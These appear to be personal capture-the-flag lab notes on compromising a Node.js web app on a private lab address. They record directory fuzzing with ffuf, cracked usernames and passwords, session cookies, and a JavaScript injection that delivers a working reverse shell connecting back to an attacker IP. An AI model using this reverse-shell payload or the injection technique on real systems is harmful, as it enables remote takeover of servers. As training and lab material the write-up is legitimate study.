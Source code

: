 ## RECON

---

```bash
$ ffuf -w  ../../Tools/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://10.10.196.61:8080/FUZZ

css                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 59ms]

```

Also found:
- /auth which requires post \<username\> and \<password\>

## POST 

---

The credentials i have found are the following:

```txt
claire-r:2ac9cb7dc02b3c0083eb70898e549b63:Password1
chris-r:0d107d09f5bbe40cade3de5c71e9e9b7:letmein
jill-v:d5c0607301ad5d5c1528962a83992ac8:sunshine1
barry-b:4a04890400b5d7bac101baace5d7e994:sandwich
```

## POST #ENTRY RECON

---

There is a cookie that remembers authentication called **connect.sid**:

- jill-v:s%3AilnqdntEqdq6CS2cN1VbIqOaWsW8nk0r.6Gazkety68%2FgCFa2aRnDnHz2pWnCJ8I1s34mztcR1vw
- barry-b:s%3AUVJrpv2CHYACPVUqWl5rxJ0L8B907UNF.VbiuOPuB3XfIwOlBJqjzHV2tRRFEwaZvW5%2B55Vil0j0

**Inputing non numbers results in a crash**

After a bit of trial and error and considering this is working in node.js, i decided to try the following input:

```js
function nothing(){return 1;}; nothing()
```

And this actually succeeds in increasing the timer, so i can just do whatever i want. Let us try to call ourselves:


```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(6666, "10.10.59.183", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; 
})();
```

No idea why this worked i mean i know nothing of js

Somehow this jumps to root???? (turns out this is a [[container]] )